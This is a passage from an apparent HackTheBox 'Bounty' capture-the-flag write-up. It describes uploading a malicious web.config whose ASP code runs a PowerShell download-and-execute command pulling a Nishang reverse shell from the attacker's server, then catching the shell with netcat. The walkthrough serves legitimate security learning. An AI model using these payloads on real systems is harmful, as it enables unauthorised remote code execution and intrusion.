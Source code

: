 -   Grab a reverse shell from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
-   Host it on a local server using Python.
-   Launch a web shell (using this [guide](https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c)) on the `web.config` file to download our reverse shell and execute it.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# cat revshell.ps1        
...
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.23 -Port 1234

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# cat web.config   
...
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Set shell = CreateObject("WScript.Shell")
Set cmd = shell.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.23:6969/revshell.ps1')")
Set output = cmd.StdOut.Readall()
Response.write(output)
%>
-->
```

>   Typically I would use port 80 but I used port 6969 because port 80 was used by Burp :(

Now that everything is ready , we can start a netcat listener and uploaded the malicious `web.config` file.

Thereafter, we view it on `http://10.10.10.93/uploadedfiles/web.config` to execute the malicious code.

```bash
- Local server -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# python3 -m http.server 6969
Serving HTTP on 0.0.0.0 port 6969 (http://0.0.0.0:6969/) ...
10.10.10.93 - - [08/Jul/2022 21:45:34] "GET /revshell.ps1 HTTP/1.1" 200 -

- Netcat listener -
┌──(root㉿shiro)-[/home/shiro]
└─# nc -nlvp 1234                            
listening on [any] 1234 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.93] 49158
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```
